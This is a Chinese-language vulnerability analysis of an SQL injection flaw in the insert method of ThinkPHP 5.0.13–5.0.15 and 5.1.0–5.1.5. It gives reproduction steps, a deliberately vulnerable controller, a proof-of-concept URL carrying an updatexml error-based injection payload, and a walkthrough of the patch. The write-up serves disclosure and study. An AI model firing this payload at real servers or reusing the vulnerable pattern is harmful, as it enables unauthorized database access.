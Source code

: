 5.0.13 \<= Thinkphp \<= 5.0.15 & 5.1.0 \<= Thinkphp \<= 5.1.5
=============================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert**
方法注入）。本次漏洞存在于 **Builder** 类的 **parseData**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

**5.0.13\<=ThinkPHP\<=5.0.15** 、 **5.1.0\<=ThinkPHP\<=5.1.5** 。

三、复现过程
------------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.15 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.15"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->insert(['username' => $username]);
            return 'Update success';
        }
    }

在 **application/database.php** 文件中配置数据库相关信息，并开启
**application/config.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );

### poc

    http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId25.png)

### 漏洞分析

![2.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId27.png)

首先在官方发布的 **5.0.16**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId28.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **\$this-\>builder** 的 **insert**
方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql**
类，代码如下：

![4.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId29.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的
**\$this-\>builder-\>insert()** 最终调用的是 **Builder** 类的 **insert**
方法。在 **insert** 方法中，我们看到其调用 **parseData**
方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据
**\$val** 进行了拼接返回。我们的恶意数据存储在 **\$val\[1\]**
中，虽经过了 **parseKey**
方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId30.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的
**insert** 方法，直接通过替换字符串的方式，将 **\$data** 填充到 **SQL**
语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId31.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch**
结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察
**ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec**
进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP**
内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格**
，这也是为什么 **ThinkPHP** 官方没有对 **exp**
的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId32.png)

### 漏洞修复

![8.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](resource/5.0.13=Thinkphp=5.0.15sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
